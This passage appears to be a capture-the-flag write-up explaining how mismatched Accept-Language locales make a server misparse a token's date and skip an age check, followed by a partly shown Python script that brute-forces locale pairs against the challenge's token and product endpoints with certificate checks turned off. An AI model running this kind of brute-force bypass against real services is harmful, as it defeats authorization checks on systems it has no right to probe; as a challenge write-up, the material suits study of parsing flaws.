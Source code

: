 The attack vector became clear:
1.  Request a token using an `Accept-Language` header that formats the date in a specific way.
2.  Claim a product using that token, but with a *different* `Accept-Language` header that causes the server to misinterpret the date string from step 1 as a date far in the past.

### Part 2: The Journey of Trial and Error

My initial attempts involved finding locale pairs where the day/month/year order was swapped. I tried combinations like `en-CA` (`yy-MM-dd`) and `nl-NL` (`dd-MM-yy`). However, these attempts consistently failed with a `401 Unauthorized` error.

This was confusing. A `403 Forbidden` would imply the age check failed, but a `401 Unauthorized` meant the token itself was considered invalid. This happened because the date string was so incompatible between the locales that the lenient parser couldn't even make sense of it, throwing a `DateTimeParseException`. The `try-catch` block in `decodeToken` would catch this error and return a generic failure, leading to the `401`.

The key was not just to find formats that were different, but formats that were *ambiguous* and could be misinterpreted without failing to parse completely.

### Part 3: The Breakthrough - Finding the Golden Pair

After several failed attempts, a systematic, brute-force approach was the only logical next step. By scripting the process of requesting a token with one locale and immediately trying to use it with another, we managed to get a working locale pair.
```py
import requests
import sys
import json
import itertools

# Disable warnings for unverified HTTPS requests, common in challenge environments
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


LOCALES = ["en-US", "en-GB", "en-CA", "en-AU", "fr-FR", "fr-CA", "de-DE", "de-AT", "es-ES", "es-MX", "it-IT", "nl-NL", "pt-PT", "pt-BR", "sv-SE", "da-DK", "fi-FI", "is-IS", "no-NO", "pl-PL", "ru-RU", "ja-JP", "ko-KR", "zh-CN", "zh-TW", "ar-SA", "fa-IR", "hi-IN", "tr-TR", "el-GR", "cs-CZ", "hu-HU"]
def solve_challenge(base_url):
    token_url = f"{base_url}/tokens"
    product_url = f"{base_url}/products/3"
    print(f"[*] Target: {base_url}")
    print(f"[*] Beginning locale pair testing. This may take a few minutes...")
    # Create all possible pairs of locales (issuing_locale, parsing_locale)
    locale_pairs = list(itertools.product(LOCALES, repeat=2))
    total_pairs = len(locale_pairs)

    for i, (issuing_locale, parsing_locale) in enumerate(locale_pairs):
        # We don't need to test a locale against itself
        if issuing_locale == parsing_locale:
            continue

        progress_bar = f"[{i+1}/{total_pairs}]"
        print(f"\r{progress_bar} Testing pair: Issuer '{issuing_locale}', Parser '{parsing_locale}'...", end="", flush=True)
        
        try:
            with requests.Session() as session:
                token_headers = {'Accept-Language': issuing_locale}
                token_response = session.post(token_url, headers=token_headers, timeout=5, verify=False)
                if token_response.status_code != 200:
                    continue  
                verification_token = token_response.json().get('token')
```